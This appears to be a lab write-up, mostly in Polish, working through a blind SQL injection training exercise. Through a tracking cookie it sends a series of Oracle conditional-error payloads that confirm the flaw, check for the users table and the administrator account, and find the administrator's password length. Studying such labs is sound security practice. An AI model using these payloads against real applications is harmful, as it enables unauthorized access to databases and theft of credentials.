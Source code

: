 Title: Blind SQL injection with conditional errors
Level: Practitioner
Desc:  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
To solve the lab, log in as the administrator user. 

payload: `TrackingId=5tHqfwpyNshiWpOW'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
![image](https://github.com/user-attachments/assets/4d10f504-bfee-4519-a541-89bf7f000502)
Wynik: zwraca błąd 

payload: `TrackingId=5tHqfwpyNshiWpOW'||(SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
![image](https://github.com/user-attachments/assets/c5a7e711-e14e-4ce4-8b31-cfaca6717b90)
Wynik: nie zwraca błędu

Weryfikacja istnienia danej tabeli w bazie danych

payload: `TrackingId=5tHqfwpyNshiWpOW'||(SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM usexxxrs where rownum=1)||'`
![image](https://github.com/user-attachments/assets/cd20d3f5-5204-4f73-b0a8-ed2387b36429)
Wynik: zwraca błąd, tabela nie istnieje w bazie

payload: `TrackingId=5tHqfwpyNshiWpOW'||(SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM users where rownum=1)||'`
![image](https://github.com/user-attachments/assets/269752dd-e6ce-4bfc-9f4d-b9859be29ca8)
Wynik: nie zwraca błędu, tabela users istnieje w bazie danych

Weryfikacja, czy użytkownik istnieje:

payload: `TrackingId=5tHqfwpyNshiWpOW'||(SELECT CASE WHEN LENGTH(password)>0 THEN TO_CHAR(1/0) ELSE '' END FROM users where username='adminxistrator')||'`
![image](https://github.com/user-attachments/assets/672b52df-5e4f-4dbf-be56-e4d9f2779493)
Wynik: nie zwraca błędu, użytkownik adminxistrator nie istnieje

payload: `TrackingId=5tHqfwpyNshiWpOW'||(SELECT CASE WHEN LENGTH(password)>0 THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||'`
![image](https://github.com/user-attachments/assets/ed3fabc1-f840-4dbb-9627-1d013a958652)
Wynik: zwraca błąd, administrator istnieje w tabeli users

Weryfikacja długości hasła
payload: `TrackingId=5tHqfwpyNshiWpOW'||(SELECT CASE WHEN LENGTH(password)>0 THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';`
payload: `TrackingId=5tHqfwpyNshiWpOW'||(SELECT CASE WHEN LENGTH(password)=20 THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';`




